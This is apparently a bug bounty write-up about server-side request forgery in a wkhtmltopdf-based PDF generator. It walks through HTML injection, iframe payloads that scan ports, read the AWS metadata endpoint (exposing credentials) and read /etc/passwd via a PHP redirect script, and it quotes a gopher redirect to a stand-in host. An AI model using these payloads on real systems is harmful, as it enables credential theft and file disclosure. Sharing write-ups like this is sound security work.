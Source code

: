 ```yaml
---
title: "SSRF Through PDF Generation"
date: 2021-05-01T12:00:00+01:00
hero: ssrf_banner.png
description: SSRF Through PDF Generation
menu:
  sidebar:
    name: SSRF Through PDF Generation
    identifier: SSRF Through PDF Exploitation
    weight: 3
---
```


![](banner.png)

This week on a BugBounty program which I left aside I found my first SSRF, here is my writeup.

## Recon
The scope is restricted to the website and its API, rather basic it allows to register as a simple user and has only a few features.

The program has been open for several months already, I approached the site thinking I probably won't find much.

However from the first hours I already had several P2 (IDOR). A scope perhaps more interesting than expected ... so I spent some time to observe the various features and how they work as a simple user.

After some tests I noticed a feature that allows to generate a PDF with data entered by the user, the software used is *WKHTMLTOPDF* in its version *0.12.3*.

Interesting, especially since recently I could read the excellent presentation of Nahamsec "[Owning the cloud through SSRF and PDF generators](https://docs.google.com/presentation/d/1JdIjHHPsFSgLbaJcHmMkE904jmwPM4xdhEuwhy2ebvo/edit#slide=id.g5df2243028_2_81)", if I retained at least 1 thing from this presentation it's the sentence "*If you see a PDF generator somewhere, 9/10 it's vulnerable*".

After some tests I finally didn't manage to exploit the feature, at least not on this endpoint !

While continuing to use the site and its features I came across a page that allowed me to add items and then generate a PDF of them, ok ... let's try again. I first started with a basic payload:

```html
<b>TEST</b>
```

Nothing ... try something else :

```html
<a href="https://google.fr">xxx</a>
```

This time, it's well reflected in the PDF and the link is clickable, so it's possible to inject HTML!

## Exploitation

In the rush I directly wanted to load the contents of the file "/etc/passwd" with the following payload :
```html
<iframe src="file:///etc/passwd">
```

Unfortunately the iframe was empty, so I tested a first payload to check that it was possible to interact with an external resource.
```html
<iframe src="https://{MY_SERVER}/x.png">
```

While generating the PDF, I received the request to my server, which confirmed that it is possible to use an iframe, so I tested various techniques, including port scanning with a payload of the type :
```html
<iframe src="https://domain.tld:80">
<iframe src="https://domain.tld:25">
<iframe src="https://domain.tld:22">
```

When a port was not available I got a 500 error from the server, ok so I got a blind SSRF but I wanted more than a simple port scan! Then I remembered that at one point in the site when you want to access a document the URL is of the type *https://domain.tld/s3/get/document/8/{RESSOURCE_ID}*.

Hum. .., *S3* ? Maybe an AWS instance, let's test that :

```html
<iframe src="http://169.254.169.254">
```

Boom ! I have access to the AWS instance and its content, including credentials (API tokens, etc...) which are private and sensitive elements.

![SSRF_AWS_KEY](SSRF_AWS_KEY.png)

## Digging

Ok cool, this SSRF is already critical, but in the end I wanted to load a local file on the server such as "*/etc/passwd*", after some tests and bypassing technique I always end up with an empty iframe.

Then while talking with a hunter friend, he showed me a very interesting technique, a PHP code snippet that allows to include an iframe to an external URL that will redirect to 127.0.0.1 but with the possibility to include a parameter such as "*file://*"" to load a local file.

The code snippet is as follows:
```php
$loc = "http://127.0.0.1/";

if(isset($_GET['a'])){
    $loc = $_GET['a'];
}
header('Location: '.$loc);
```

So I quickly set it up on my server (You will have understood that it is necessary to have a web server with PHP installed for this piece of code to be usable).

I can now use the following payload:
```html
<iframe src="https://my_server.tld/ssrf.php?a=file:///etc/passwd">
```

I generate the new PDF and hop! I have the content of the desired file :D

## Conclusion
This SSRF is interesting because even if it may remain quite "simple", it shows that you should not stop at the first payload that works (the port scan in my case) and try to dig for the most critical scenario.

In the end, by looking closer, on the Github repository of [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) it is possible to find the following payload:
```php
<?php
  header("Location: gopher://hack3r.site:1337/_SSRF%0ATest!");
?>
```

That you only have to modify in this to get the same result as above:
```php
<?php
 header("Location: file:///etc/passwd");
?>
```

The advantage of the code snippet above is that it is possible to directly include the wrapper with the desired payload as a parameter rather than modifying the content of the php file each time.

Initially I hadn't watched this program because I didn't find it interesting, it's only several months after I decided to have a look at it, although several hunters have raised vulnerabilities I learned here that it's always interesting to go back to an "old scope".

That doesn't mean the other hunters were bad because each hunter has its own methodology and favorite vulnerabilities, especially since this is a production site so there is a strong chance that there have been changes or new features that weren't available before.
